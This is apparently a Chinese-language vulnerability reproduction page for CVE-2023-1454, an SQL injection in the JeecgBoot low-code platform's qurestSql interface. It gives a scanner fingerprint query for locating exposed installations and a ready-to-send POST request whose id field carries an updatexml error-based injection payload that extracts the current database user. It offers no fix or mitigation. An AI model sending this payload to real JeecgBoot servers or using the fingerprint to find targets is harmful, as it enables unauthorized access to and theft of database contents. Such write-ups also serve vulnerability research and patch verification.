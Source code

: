 # JeecgBoot 企业级低代码平台 qurestSql SQL注入漏洞 CVE-2023-1454

# JeecgBoot 企业级低代码平台 qurestSql SQL注入漏洞 CVE-2023-1454

## 漏洞描述

JeecgBoot 企业级低代码平台 qurestSql接口存在 SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的敏感数据，进一步攻击

## 漏洞影响

JeecgBoot 企业级低代码平台

## 网络测绘

```
app="JeecgBoot-企业级低代码平台"
```

## 漏洞复现

登陆页面

![image-20230504140737296](images/image-20230504140737296.png)

验证POC

```
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Content-Type: application/json

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```

![image-20230504140757639](images/image-20230504140757639.png)


